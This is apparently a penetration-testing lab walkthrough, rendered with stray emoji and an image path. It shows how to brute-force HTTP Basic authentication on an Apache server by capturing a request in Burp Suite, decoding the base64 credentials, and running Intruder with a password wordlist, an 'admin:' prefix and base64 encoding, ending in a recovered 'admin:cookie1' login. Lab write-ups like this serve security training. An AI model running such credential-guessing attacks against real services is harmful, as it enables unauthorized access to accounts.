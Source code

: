 ```http
<h1>Unauthorized</h1>📌
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.7 (Ubuntu) Server at 192.76.240.3 Port 80</address>
</body></html>
```
❌

`burpsuite` > `Proxy`

`HTTP Request`:
```http
GET /basic📌 HTTP/1.1
Host: 192.76.240.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=freol24712nvgt9hf2lg42m5p2
Upgrade-Insecure-Requests: 1
Authorization: Basic dGVzdDp0ZXN0📌
```

`echo -n 'dGVzdDp0ZXN0' | base64 -d`:
```
test:test
```

`burpsuite` > `Intruder` > `Payloads` = `Payload Options: Load: /root/Desktop/wordlists/100-common-passwords.txt` = `Payload Processing: Add: Add Prefix: admin:` = `Payload Processing: Add: Base64-encode` > `Start attack`

`HTTP Request`:
```http
GET /basic📌 HTTP/1.1
Host: 192.76.240.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=freol24712nvgt9hf2lg42m5p2
Upgrade-Insecure-Requests: 1
Authorization: Basic §password§📌
```
`HTTP Request`:
```http
GET /basic📌 HTTP/1.1
Host: 192.76.240.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=freol24712nvgt9hf2lg42m5p2
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46Y29va2llMQ%3d%3d📌
```
`HTTP Response`:
```http
HTTP/1.1 301📌 Moved Permanently
```